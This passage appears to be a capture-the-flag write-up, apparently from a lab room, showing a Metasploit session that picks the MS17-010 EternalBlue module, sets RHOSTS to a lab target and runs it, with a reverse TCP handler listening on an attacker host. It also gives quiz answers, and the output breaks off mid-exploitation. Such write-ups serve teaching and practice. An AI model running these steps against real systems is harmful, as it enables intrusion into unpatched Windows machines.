 ```
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


msf5 > 
```

ANS: `exploit/windows/smb/ms17_010_eternalblue`

#### #3 Show options and set the one required value. What is the name of this value? (All caps for submission)

```
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.172.76
rhosts => 10.10.172.76
msf5 exploit(windows/smb/ms17_010_eternalblue) > options 

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.172.76     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf5 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.9.19.3:4444 
[*] 10.10.172.76:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.172.76:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.172.76:445      - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.172.76:445 - Connecting to target for exploitation.
[+] 10.10.172.76:445 - Connection established for exploitation.
[+] 10.10.172.76:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.172.76:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.172.76:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.172.76:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.172.76:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.172.76:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.172.76:445 - Trying exploit with 12 Groom Allocations.
```